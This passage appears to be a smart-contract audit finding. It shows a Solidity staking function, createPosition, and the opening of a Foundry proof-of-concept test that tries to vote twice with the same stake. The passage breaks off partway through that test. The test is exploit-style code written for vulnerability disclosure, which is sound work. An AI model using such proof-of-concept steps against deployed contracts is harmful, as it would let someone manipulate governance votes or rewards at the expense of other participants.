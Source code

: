 ```solidity
    function createPosition(uint256 amount, uint256 lockDuration) external override nonReentrant {
        // no new lock can be set if the pool has been unlocked
        if (isUnlocked()) {
            require(lockDuration == 0, "locks disabled");
        }

        _updatePool();

        // handle tokens with transfer tax
        amount = _transferSupportingFeeOnTransfer(stakedToken, msg.sender, amount);
        require(amount != 0, "zero amount"); // createPosition: amount cannot be null

        // mint NFT position token
        uint256 currentTokenId = _mintNextTokenId(msg.sender);

        // calculate bonuses
        uint256 lockMultiplier = getMultiplierByLockDuration(lockDuration);
        uint256 amountWithMultiplier = amount * (lockMultiplier + 1e4) / 1e4;

        // create position
        _stakingPositions[currentTokenId] = StakingPosition({
            initialLockDuration: lockDuration,
            amount: amount,
            rewardDebt: amountWithMultiplier * (_accRewardsPerShare) / (PRECISION_FACTOR),
            lockDuration: lockDuration,
            startLockTime: _currentBlockTimestamp(),
            lockMultiplier: lockMultiplier,
            amountWithMultiplier: amountWithMultiplier,
            totalMultiplier: lockMultiplier
        });

        // update total lp supply
        _stakedSupply = _stakedSupply + amount;
        _stakedSupplyWithMultiplier = _stakedSupplyWithMultiplier + amountWithMultiplier;

        emit CreatePosition(currentTokenId, amount, lockDuration);
    }
```

## Proof of Concept

Scenario 1:

```solidity
function testGT_vote_twice_with_the_same_stake() public {
        vm.prank(DEV);
        _voter.updateMinimumLockTime(2 weeks);

        _stakingToken.mint(ALICE, 1 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        vm.stopPrank();

        skip(1 weeks);

        vm.prank(DEV);
        _voter.startNewVotingPeriod();

        vm.startPrank(ALICE);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        vm.expectRevert(IVoter.IVoter__AlreadyVoted.selector);
```